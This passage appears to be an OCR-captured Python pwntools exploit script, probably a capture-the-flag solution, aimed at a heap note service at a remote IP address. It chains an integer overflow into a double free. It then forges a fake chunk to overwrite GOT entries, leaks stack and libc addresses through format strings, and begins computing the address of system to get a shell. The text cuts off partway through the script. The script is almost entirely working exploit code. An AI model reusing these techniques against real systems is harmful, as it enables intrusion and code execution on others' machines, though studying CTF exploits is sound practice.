 ```
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)

#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0

libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640

# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')

# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)

# 3. double free
free(4)

# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)

# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)

# free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))

ret =  conn.recvuntil('success')
print ret

# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
```